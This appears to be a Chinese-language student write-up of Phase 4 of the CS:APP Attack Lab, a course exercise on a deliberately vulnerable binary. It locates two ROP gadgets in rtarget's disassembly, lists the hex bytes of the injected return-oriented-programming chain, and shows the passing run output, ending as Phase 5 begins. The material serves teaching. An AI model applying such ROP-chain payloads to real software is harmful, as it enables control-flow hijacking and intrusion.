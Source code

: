 ![](C:\Github_io\source\img\csapp\attack_phase4.png)

- 查找`rtarget.s`中对应的字节值
- `pop %rax`用`58`表示，于是查找`58`
- 得到指令地址为`0x4019ab`

~~~assembly
00000000004019a7 <addval_219>:
  4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:       c3                      retq                   retq
~~~

- `movq %rax, %rdi`表示为`48 89 c7`，刚好能找到！其中 90 表示“空”，可以忽略
- 得到指令地址为`0x4019c5`

~~~assembly
00000000004019c3 <setval_426>:
  4019c3:       c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:       c3                      retq
~~~

- 注入的二进制数据十六进制表示

~~~
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
~~~

#### 结果

~~~bash
lzy@DESKTOP-PS05SI3:~/csapp/attacklab/attacklab/target1$ ./hex2raw < phase4.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
~~~

***

### Phase 5

#### 要求
